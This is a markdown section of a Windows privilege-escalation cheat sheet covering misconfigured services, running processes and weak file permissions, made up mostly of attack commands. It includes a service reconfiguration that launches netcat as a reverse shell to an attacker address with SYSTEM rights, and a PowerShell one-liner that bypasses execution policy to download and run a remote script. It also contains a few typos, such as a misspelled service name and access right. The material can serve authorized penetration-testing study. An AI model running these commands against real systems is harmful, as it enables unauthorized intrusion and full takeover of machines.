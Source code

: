 # Windows Services
Next, we can try Microsoft Windows Services with the following command,
```
C:> sc qc Sploiler
```
If we upload a copy of the `accesschk.exe` binary from [Microsoft SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) we can check alot of permissions for services. For instance,
```
C:> accesschk.exe /accepteula -ucqv Spooler
```
will list the Spooler service and it's permissions. To list all services, simply use an asterisk,
```
C:> accesschk.exe /accepteula -ucqv *
```
We can use it to check for write access to a service with the following DOS command,
```
C:> accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```
Now, let's try it in practice. First a few things need to be in order. We must,
1. Have a space to read and write 
2. Upload the Windows binary of Netcat to the target `/usr/share/binaries/windows` in Kali.
```
C:\> sc qc upnphost
C:\> sc config upnphost binpath= "C:\temp\nc.exe -nv (ATTACKER IP ADDRESS) (ATTACKER PORT) -e C:\WINDOWS\System32\cmd.exe"
C:\> sc config upnphost obj= ".\LocalSystem" password= ""
C:\> sc qc upnphost
C:\> net start upnphost # start the service
```
The access rights that we are looking for in the service to fully exploit it are,
* SERVICE_SHNAGE_CONFIG
* WRITE_DAC
* WRITE_OWNER
* GENERIC_WRITE
* GENERIC_ALL
The important thing to remember is that we find out what user groups our compromised session belongs to. As mentioned previously "Power Users" is also considered to be a low privileged user group. "Power Users" have their own set of vulnerabilities, Mark Russinovich has written a very interesting article on the subject.

Do any services have unquoted paths with spaces?
```
C:> wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:windows\" |findstr /i /v """
C:> gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```
## Windows Processes
We can gather information on the currently-running processes with the following commands,
```
C:> tasklist /v
C:> tasklist /v /fi "username eq system"
C:> net start
C:> sc query
PS> Get-Service
PS> Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize
PS> REG QUERY "HKLM\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine" /v PowerShellVersion
```
Search for weak services using [PowerUp Power Shell](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps) script,
```
powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
```
## Weak File Permissions
We can also use `accesschk.exe` to determine which files in the target system have weak permissions. You can get Accesschk.exe from [this repository](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Privilege%20Escalation/windows-binaries/accesschk.exe)
```
C:> accesschk.exe -uwdqs Users c:\
C:> accesschk.exe -uwdqs "Authenticated Users" c:\
C:> accesschk.exe -uwqs Users c:\*.*
C:> accesschk.exe -uwqs "Authenticated Users" c:\*.*
```
